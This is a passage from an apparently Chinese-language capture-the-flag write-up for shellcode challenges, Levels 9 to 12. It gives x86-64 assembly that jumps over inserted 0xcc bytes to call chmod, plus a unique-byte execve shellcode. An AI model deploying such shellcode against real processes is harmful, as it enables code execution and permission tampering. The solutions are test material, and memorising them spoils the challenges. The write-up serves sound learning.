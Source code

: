 

#### Level 9

> This challenge modified your shellcode by overwriting every other 10 bytes with 0xcc. 0xcc, when interpreted as an
> instruction is an `INT 3`, which is an interrupt to call into the debugger. You must avoid these modifications in your
> shellcode.

每隔10字节就会用10个中断替换，用循环跳过就行了。

```assembly
push 0x66
mov rdi, rsp
push 4
pop rsi
jmp next
.rept 10
nop
.endr
/* call chmod() */
next:
push SYS_chmod /* 0x5a */
pop rax
syscall
```

#### Level 10

> This challenge just sorted your shellcode using bubblesort. Keep in mind the impact of memory endianness on this sort
> (e.g., the LSB being the right-most byte).
>
> This sort processed your shellcode 8 bytes at a time.

代码同level 9

#### Level 11

> This challenge is about to close stdin, which means that it will be harder to pass in a stage-2 shellcode. You will need
> to figure an alternate solution (such as unpacking shellcode in memory) to get past complex filters.

代码同level 9

#### Level 12

> This challenge requires that every byte in your shellcode is unique!

说实话这就有点强人所难了，像极了需要特殊解法的奥数题。具体做法就是用不同命令互相进行替换。用上面的代码即可

```assembly
		push 0x63
    mov rdi, rsp
    xor esi, esi
    cdq
    mov al,0x3b
    syscall

```
